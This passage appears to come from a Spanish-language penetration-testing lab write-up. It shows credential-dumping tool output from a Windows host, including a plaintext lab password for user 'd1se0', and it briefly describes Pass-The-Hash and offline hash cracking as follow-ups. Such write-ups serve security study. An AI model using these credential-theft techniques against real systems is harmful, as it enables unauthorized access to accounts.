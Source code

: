 ```
Authentication Id : 0 ; 49876 (00000000:0000c2d4)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 22/11/2024 9:56:12
SID               : 
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-EALA4JN$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 22/11/2024 9:56:12
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-EALA4JN$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : desktop-eala4jn$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Y como vemos en esta seccion:

```
ssp :
        credman :
         [00000000]
         * Username : d1se0
         * Domain   : 192.168.5.182
         * Password : diseo
        cloudap :
```

Nos esta dando la contraseña en texto plano del usuario `d1se0`.

En tal caso de que a lo mejor solo obtuvieramos los `hashes` `NTLM` se podria hacer un `Pass-The-Hash` con dicho `hash` para autenticarte como dicho usuario sin saber su contraseña y aunque se cambie la contraseña podras seguir pudiendo autenticarte, o tambien se puede intentar crackear el `hash` de forma que te de la contraseña en `texto plano`.
